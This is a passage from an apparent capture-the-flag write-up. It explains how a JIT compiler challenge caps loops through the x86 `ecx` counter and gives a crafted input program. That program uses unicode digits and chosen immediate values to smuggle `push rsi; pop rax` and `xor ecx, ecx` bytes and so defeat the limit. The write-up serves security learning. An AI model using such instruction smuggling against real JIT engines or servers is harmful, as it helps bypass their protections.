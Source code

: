 If you run this, you'll notice that the result is always 10000, when it should be 1852400175. After some debugging, I discovered that we actually exit the loop early. To see why, we need to take a look at the encoding of the jump instruction:
```c
out[0] = 0xe2;
out[1] = 0x01; // loop ->jne
out[2] = 0xc3; // ret
out[3] = 0x75;
out[4] = (intbracket(cmd + 4) - instrno) * 5 - 5; // jne imm8
```
```asm
loop 0x3
ret
jne 0x6
```

The [loop instruction](https://c9x.me/x86/html/file_module_x86_id_161.html) uses `ecx` to implement a simple looping primitive. If the value in `ecx` is NOT zero, we jump by the amount specified. If it IS zero, the next instruction is executed. In our case, `ecx` is initially set to 10000 by the init stub.
```c
__asm(
    "\n\tpush %%r12"
    "\n\tpush %%rbx"
    "\n\tmov $10000, %%rcx" // ecx set here
    "\n\tmov %1, %%rax"
    "\n\tmov %2, %%r12"
    "\n\tcall *%%rax"
    "\n\tpop %%rbx"
    "\n\tpop %%r12"
    "\n\tmov %%rax, %0"
    : "=r"(res)
    : "r"(jit.text), "r"(jit.data)
    : "rax", "rcx", "cc", "memory"
      );
```
Every time we perform a `JMP` the value is decremented and when it reaches zero the program returns. This basically implements a maximum number of loops, presumably to stop someone from causing an infinite loop on the remote server.

As we need more than 10000 jumps, we'll need to set `ecx` to something much larger. Setting it to zero provides us with the 2^64 jumps, because `ecx` is decremented before comparing it to zero. We'll use the `push rsi; pop rax` stub along with a `xor ecx, ecx` instruction to change it's value. Combining this with the unicode tricks discussed earlier, we get:
```
JMP(００6)
MOV(A, 22614) // push rsi; pop rax

JMP(００8)
MOV(A, 51505) // xor ecx, ecx

MOV(A, 0)
STR(A, 10)
MOV(A, 18699)
STR(A, 0)
LDR(A, 0)
ADD(A, 99999)
STR(A, 0)
LDR(A, 10)
ADD(A, 1)
STR(A, 10)
CMP(A, 18524)
JNE(8) // Needed to be changed from 4 to 8 as we have 4 extra instructions at the beginning.

// Store the constructed value in eax and return so that it's printed. Makes checking for success easier.
```